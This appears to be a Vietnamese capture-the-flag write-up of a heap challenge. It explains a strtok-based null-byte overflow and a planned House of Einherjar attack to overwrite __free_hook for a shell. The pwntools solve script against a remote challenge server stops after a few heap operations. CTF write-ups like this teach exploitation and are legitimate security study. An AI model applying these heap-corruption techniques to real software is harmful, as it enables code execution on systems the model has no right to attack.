 Hàm `strtok()` chia 1 string thành chuỗi NULL hoặc là 1 chuỗi token. Nếu tìm thấy delimiter byte đã được chỉ định, nó sẽ được ghi đè bởi NULL byte để kết thúc chuỗi.

`The strtok() function breaks a string into a sequence of zero or more nonempty tokens.  On the first call to strtok(), the string to be parsed should be specified in str.  In each subsequent call that should parse the same string, str must be NULL.`

Ở hàm `do_str()`, khi cấp phát và nhập nội dung thì nó sẽ đọc chính xác số kí tự theo size đã được chỉ định và không kết thúc chuỗi bằng NULL byte.
Do đó, ta có thể lấp đầy heap.

![image](https://hackmd.io/_uploads/rJcByhPo6.png)

Bây giờ ta gọi hàm `do_tok()` và chỉ định delimiter byte là byte đầu tiên của trường size của chunk kế tiếp, ta sẽ trigger được null byte overflow.

![image](https://hackmd.io/_uploads/r12VeNuoT.png)



Đến đây, mình khá là tà đạo nên sẽ sử dụng kĩ thuật House of einherjar để ghi đè `__free_hook` và get shell.

## Solve Script

```python
from pwn import *

if args.LOCAL:
    io=process('./chall_patched')
    if args.GDB:
        cmd="""
        init-pwndbg
        """
        gdb.attach(io, cmd)
else: 
    io=remote('mc.ax', 32526)
    #io=remote('0', 1337)
libc=ELF('./libc-2.27.so')
elf=ELF('./chall_patched')

def str_(size, ll):
    io.sendlineafter(b'> ', b'1')
    io.sendafter(b'size? ', str(size).encode())
    if size:
        sleep(0.1)
        io.send(ll)
    
def tok(idx, delim):
    io.sendlineafter(b'> ', b'2')
    io.sendafter(b'idx? ', str(idx).encode())
    io.sendafter(b'delim? ', delim)
    
def del_(idx):
    io.sendlineafter(b'> ', b'3')
    io.sendafter(b'idx? ', str(idx).encode())
    
def exit_():
    io.sendlineafter(b'> ', b'4')

for i in range(2):
    str_(0, b'aa')

del_(0)
del_(1)

```